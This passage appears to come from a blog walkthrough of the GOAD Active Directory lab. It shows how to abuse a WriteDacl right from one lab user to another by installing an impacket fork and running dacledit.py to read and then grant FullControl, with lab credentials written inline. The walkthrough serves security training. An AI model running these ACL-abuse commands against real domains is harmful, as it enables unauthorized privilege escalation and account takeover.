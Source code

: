 
## WriteDacl on User (Joffrey -> Tyron)

![acl_writedacl_bh.png](/assets/blog/GOAD/acl_writedacl_bh.png)

- To exploit writeDacl from Joffrey to Tyron we can use acledit.py 

- First we will clone the impacket's [fork](https://github.com/ThePorgs/impacket.git) created by shutdown (@_nwodtuhs) to get the last PR with dacledit

```bash
git clone https://github.com/ThePorgs/impacket.git
cd impacket 
python3 setup.py install
```

- Now we can use [dacledit.py](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)

- First let's look at joffrey's right on tyron :

```bash
dacledit.py -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
```

![acl_dacl_read_permission.png](/assets/blog/GOAD/acl_dacl_read_permission.png)

- Ok now change the permission to "FullControl" and see the modification

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal joffrey.baratheon  -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion'
```

![acl_dacl_writedacl.png](/assets/blog/GOAD/acl_dacl_writedacl.png)
